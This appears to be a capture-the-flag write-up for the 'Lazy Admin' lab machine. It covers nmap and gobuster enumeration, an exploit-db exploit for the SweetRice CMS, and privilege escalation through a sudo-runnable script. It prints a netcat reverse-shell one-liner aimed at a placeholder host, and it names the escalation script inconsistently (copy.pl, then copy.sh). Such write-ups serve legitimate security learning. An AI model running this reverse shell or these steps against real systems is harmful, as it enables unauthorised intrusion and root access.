



# Lazy Admin

## Reconnaissance

IP addr : 10.10.194.246

## Scanning & Enumeration

* Nmap Scan
  
```shell
nmap -A -T4 -p- -oN nmap/all_port 10.10.194.246
```

we find open port at 80(http) and 22(ssh)

* Gobustur dir finding
  
```shell
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.194.246/

```

we find /content and [SweetRice](http://www.basic-cms.org/) here.

SweetRice is vulnerable to <https://www.exploit-db.com/exploits/40716> exploit

We run gobuster at SweetRice

```shell
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.194.246/content/
```

and find

/images (Status: 301)
/js (Status: 301)
/inc (Status: 301)
/as (Status: 301)
/_themes (Status: 301)

and we fond a mysql backup file containing the manager password md5 hash


we know have access to the cms


## Exploitation

* run our [exploit](exploit/40716.py)
we get a www data user shell


found sudo -l exploitation vector
that run /etc/copy.pl
so we edit it'containt to

```shell
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> <Port> >/tmp/f' >/etc/copy.sh
```

and we get the root shell

